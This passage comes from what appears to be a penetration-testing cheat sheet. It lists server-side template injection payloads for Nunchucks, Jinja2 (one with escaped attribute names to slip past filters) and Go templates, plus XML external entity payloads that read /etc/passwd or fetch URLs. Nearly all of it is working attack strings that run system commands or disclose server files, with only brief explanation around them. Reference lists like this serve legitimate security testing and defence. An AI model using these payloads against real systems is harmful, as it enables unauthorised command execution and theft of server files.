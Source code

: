 ### Nunchucks (Nodejs)
```
{{range.constructor("console.log(123)")()}}
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

### Python (Jinja2)
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
{{request.__class__._load_form_data.__globals__.__builtins__.__import__("os").popen("id").read()}}
```

### Golang
```
{{.}}
```

- [PayloadsAllTheThings - STTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [Github Websites Vulnerable To SSTI](https://github.com/DiogoMRSilva/websitesVulnerableToSSTI)

# XML external entity (XXE)
> XML external entity (XXE) injection is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
> It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access. - [source](https://portswigger.net/web-security/xxe)

### Read File
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<foo>Hello &file;</foo>
```

### Get Link
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "http://example.com/path">
]>
<foo>Hello &file;</foo>
```
```xml
<!DOCTYPE foo [
    <!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/path">
]>
<foo>Hello &file;</foo>
```
